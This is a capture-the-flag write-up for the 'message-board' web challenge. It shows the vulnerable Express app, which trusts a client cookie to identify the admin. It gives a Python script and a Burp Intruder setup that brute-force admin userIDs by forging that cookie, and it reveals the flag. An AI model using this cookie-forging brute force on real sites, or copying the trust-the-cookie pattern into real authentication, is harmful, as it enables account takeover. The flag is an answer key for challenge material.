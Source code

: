 # Challenge Name: message-board

## Description

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).

[message-board-master.zip](message-board-master.zip)

## Detailed solution

Start by opening the challenge link https://message-board.hsc.tf/  

![image](https://i.imgur.com/3vM0W8A.png)

We have a login page https://message-board.hsc.tf/login  

![image](https://i.imgur.com/iLWhsUS.png)

It's a normal login form that use POST request  

```html
    <form action="/login" method="POST">
        <div class="mb-3">
            <label class="form-label" for="username">Username</label>
            <input class="form-control" type="text" name="username" id="">
        </div>
        <div class="mb-3">
            <label class="form-label" for="password">Password</label>
            <input class="form-control" type="password" name="password" id="">
        </div>
        <button class="btn btn-primary" type="submit">Login</button>
        <p class="form-text">Gossip abounds</p>
    </form>
```

Now let's check the source code [message-board-master.zip](message-board-master.zip) 

It's a Express-NodeJS web application let's see the app.js 

```js
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```  

The login POST request test if the usersname and password exist in the ``` const users ``` 

As we can users has **kupatergent** and admin, the password and userID for the admin has been edited for the challenge  

So we have only the login ```kupatergent:gandal``` 

![image](https://i.imgur.com/PApyqmJ.png)

After login in using ```kupatergent:gandal``` we can the message no flag for you 

```js
app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})
``` 
As we can see if we acces the home page a test check our cookie and extract the userID and username and compare them to username and userID of the admin 

If our cookie has the admin username and userID we gonna see the flag 

A cookie has been generated after login in ```kupatergent:gandal``` we can see it in dev tools 

```
userData=j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D
``` 

It's url encoded let's decode it 
  
```
j:{"userID":"972","username":"kupatergent"}
```  

As we can the cookie has the userID and the username. So to be able to get the flag we need to craft a cookie with 

j:{"userID":"X","username":"admin"} as X is admin userID 

So we need to bruteforce the userID until we got a page with flag 

```python
import requests
from requests.structures import CaseInsensitiveDict

url = "https://message-board.hsc.tf/"

headers = CaseInsensitiveDict()

for i in range(0, 999):
    print("userID = " + str(i) ) 
    headers["Cookie"] = "userData=j:%7B%22userID%22:%22" + str(i)+ "%22,%22username%22:%22admin%22%7D"
    resp = requests.get(url, headers=headers)
    page = resp.content.decode("utf-8")
    if page.find("no flag for you") != 1429:
        print(page)
        break
``` 

![image](https://i.imgur.com/fb65OaS.png)


We got admin userID which is 768 and the flag 


## Flag

```
flag{y4m_y4m_c00k13s}
```



## OR


I logged in using the given credentials.

Found a cookie named userData with userID and username

![](https://i.imgur.com/gcZthM9.png)

here userID is `972` and username is `kupatergent`

Now i started looking into the given server code files and in one of the files named app.js
i found this:

![](https://i.imgur.com/EwHdN4D.png)

that indicates that we don’t need password for admin access we just need the correct user id.

So, now i fired up BurpSuite sent the request with cookie to the intruder replaced the username with admin and set the payload parameter at userID

```
Cookie: userData=j%3A%7B%22userID%22%3A%22§9§%22%2C%22username%22%3A%22admin%22%7D
```
![](https://i.imgur.com/htFr2IA.png)

Payload settings:

![](https://i.imgur.com/vs6kf6S.png)

Also set up a grep match for flag{ as that is the starting of the flag

![](https://i.imgur.com/YJmEAdV.png)

And now we have to look for a ticked checkbox for flag{ and in the response section of that response we have the flag

![](https://i.imgur.com/sBY1hJl.png)

here we have the flag, we can confirm it on the website by changing the cookie values:

```
userID = 768
username = admin
```

![](https://i.imgur.com/mGrqaU2.png)


```
flag{y4m_y4m_c00k13s}
```